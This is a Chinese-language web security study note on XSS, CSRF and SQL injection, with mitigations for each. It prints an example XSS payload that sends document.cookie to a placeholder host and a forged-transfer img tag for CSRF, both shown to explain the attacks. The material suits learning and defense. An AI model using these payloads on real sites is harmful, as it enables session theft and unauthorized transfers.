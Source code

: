 ### 跨站脚本攻击（XSS）

#### 概念和原理

​		跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript

>  例如有一个论坛网站，攻击者可以在上面发布以下内容：
>
> ```html
> <script>location.href="//domain.com/?c=" + document.cookie</script>
> ```
>
> 之后该内容可能会被渲染成以下形式：
>
> ```html
> <p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
> ```
>
> ​		另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie
>
> ​		如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了



#### 危害

- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片



#### 解决方案

1. 设置 Cookie 为 HttpOnly

   > ​		设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息

2. 过滤特殊字符

   > 例如将 `<` 转义为 `&lt;`，将 `>` 转义为 `&gt;`，从而避免 HTML 和 Jascript 代码的运行
   >
   > ​		富文本编辑器允许用户输入 HTML 代码，就不能简单地将 `<` 等字符进行过滤了，极大地提高了 XSS 攻击的可能性。富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的 HTML 代码的输入



### 跨站请求伪造（CSRF）

#### 概念和原理

​		跨站请求伪造（Cross-site request forgery，CSRF），是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行

​		XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户浏览器的信任

> 假如一家银行用以执行转账操作的 URL 地址如下：
>
> ```html
> http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName
> ```
>
> 那么，一个恶意攻击者可以在另一个网站上放置如下代码：
>
> ```html
> <img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">
> ```
>
> ​		如果有账户名为 Alice 的用户访问了恶意站点，而她之前刚访问过银行不久，登录信息尚未过期，那么她就会损失 1000 美元
>
> ​		这种恶意的网址可以有很多种形式，藏身于网页中的许多地方。此外，攻击者也不需要控制放置恶意网址的网站。例如他可以将这种地址藏在论坛，博客等任何用户生成内容的网站中。这意味着如果服务器端没有合适的防御措施的话，用户即使访问熟悉的可信网站也有受攻击的危险
>
> ​		通过例子能够看出，攻击者并不能通过 CSRF 攻击来直接获取用户的账户控制权，也不能直接窃取用户的任何信息。他们能做到的，是欺骗用户浏览器，让其以用户的名义执行操作

#### 解决方案

- 检查 Referer 首部字段

  >  		Referer 首部字段位于 HTTP 报文中，用于标识请求来源的地址。检查这个首部字段并要求请求来源的地址在同一个域名下，可以极大的防止 CSRF 攻击。
  >
  > ​		这种办法简单易行，工作量低，仅需要在关键访问处增加一步校验。但这种办法也有其局限性，因其完全依赖浏览器发送正确的 Referer 字段
  >
  > ​		虽然 HTTP 协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其 Referer 字段的可能

- 添加校验 Token

  >  		在访问敏感数据请求时，要求用户浏览器提供不保存在 Cookie 中，并且攻击者无法伪造的数据作为校验
  >
  > ​		例如服务器生成随机数并附加在表单中，并要求客户端传回这个随机数

- 输入验证码

  > 因为 CSRF 攻击是在用户无意识的情况下发生的，所以要求用户输入验证码可以让用户知道自己正在做的操作（例如支付的操作需要进行输入密码的操作等）



### SQL注入

#### 解决方案

- 使用预编译方式的SQL语句来请求数据库（`PreparedStatement`）
- 将传入的参数中的单引号转换为连续两个单引号